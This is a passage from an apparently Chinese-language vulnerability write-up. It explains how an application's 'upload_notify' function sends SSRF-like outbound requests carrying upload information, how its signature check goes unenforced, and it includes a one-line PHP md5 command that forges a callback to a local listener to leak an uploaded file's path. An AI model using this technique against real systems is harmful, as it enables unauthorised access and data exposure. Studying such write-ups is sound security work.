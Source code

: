 跟进下`upload_notify`​ 发现跟 SSRF 一样可以向外请求并且带上我们的`$info`​ --------> 这感觉写的就怕我找不到路径似的，这里的验签压根就不需要管他，因为文件都传上去了，无所谓了，只需要路径，而他也并没有判断验签对不对 (如果校验了，就没办法上传了，因为`$info`​是未知的)

[![](assets/1709022895-a6cd5354672cfe531e42a73b36114ab8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226192154-3f2afb82-d499-1.png)

于是带好参数写好验签即可成功触发

```plain
echo md5("md=upload&notify=http://127.0.0.1:8877/&uid=1asdasfasfasfasfasfa");
```

[![](assets/1709022895-4ebe036b4cbd456182fda1c03ccac56a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226192203-43fcb402-d499-1.png)
